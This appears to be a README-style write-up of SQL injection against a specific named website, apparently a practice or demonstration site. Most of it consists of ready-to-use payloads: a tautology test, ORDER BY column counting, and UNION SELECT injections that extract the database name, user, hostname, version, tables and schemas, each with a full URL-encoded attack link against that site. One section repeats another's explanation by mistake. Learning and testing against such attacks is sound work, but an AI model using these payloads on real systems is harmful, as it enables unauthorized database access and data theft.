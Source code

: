 # Website Link : https://fruits.selfmade.solutions

This website is Vulnerabile in sql injection. Here we see how sql injection happen in real world using this website.

# SQL Injection Vulnerability Experiment

## Overview

This section documents the SQL injection vulnerabilities identified in the website [https://fruits.selfmade.solutions/]. The vulnerabilities allow unauthorized access to the database, potentially leading to data exposure and manipulation.

## Testing for SQL Injection

To determine if a website is vulnerable to SQL injection, you can use various payloads and observe the system's responses. Here are some commands and payloads that were used to test the website.

### Basic SQL Injection Test

To perform a basic SQL injection test, input the following payload into the search functionality of the website:

' OR '1'='1

**Expected Outcome:** The query should return all records, indicating that the SQL injection is successful.

### Advanced SQL Injection Tests

#### Finding the Number of Columns

You may need to find the number of columns in the original query. This can be done with an injection like:

- `' ORDER BY 1;--`
- `' ORDER BY 2;--`
- `' ORDER BY 3;--`

Continue increasing the number until you get an error, which will indicate the number of columns.

Inject the Union-Based Payload:
Once you know the number of columns, use the UNION injection.

Knowing that the search table has 12 columns, you need to adjust your UNION SELECT statement to match this structure. Here's how you can do it:

Crafting the Injection Payload for a 12-Column Table
Match the Number of Columns:
Ensure the UNION SELECT has the same number of columns as the original query.

Use Null Values for Unneeded Columns:
If you're only interested in extracting the database name, use null for the other columns.

### Extracting the database name

`' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--`

Here we use URL encode because this website uses GET method in form so the given inputs are passes through the URL so we use URL encoding to avoid errors.Which can be seen clearly in result page URL after searching like `apple` etc...

URL Encoded Payload
To use this in a URL, you need to URL-encode the payload:

plaintext

`%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--`

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20database%28%29%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%2C%20null%3B--%20

Explanation

' UNION SELECT database(), null, null, null, null, null, null, null, null, null, null, null;--:
This payload injects a union query that matches the 12-column structure of the original query and extracts the current database name.

URL-encoded version:

This converts the payload into a format suitable for use in a URL.

we can't use Error-Based Injection in this website because the error stop the flow of execution in the server.

### Retrieving User Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT user(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

plaintext

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20user%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retrieving Server Name

To find the username of the current MySQL user through SQL injection, you can use the user() function in your SQL injection payload. This function returns the current MySQL user and host.
To retrieve the database user name, use the following payload:

`' UNION SELECT @@hostname, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20%40%40hostname%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Retriving Sql Version 

use the following payload:

`' UNION SELECT version(), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20version%28%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%3B--%20

### Listing All Tables in the Database

To list all tables in the current database, use:

`' UNION SELECT GROUP_CONCAT(table_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = database();-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28table_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.tables%20WHERE%20table_schema%20%3D%20database%28%29%3B--%20

### Listing All Databases

To list all databases, use:

`' UNION SELECT GROUP_CONCAT(schema_name), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL FROM information_schema.schemata;-- `

Full URL

https://fruits.selfmade.solutions/result.php?search=%27%20UNION%20SELECT%20GROUP_CONCAT%28schema_name%29%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%2C%20NULL%20FROM%20information_schema.schemata%3B--%20

### To find additional informations

use:`' OR (backtick here)id(backtick here)='13' -- `

This input will fetch exactly the item with id '13' on the table.
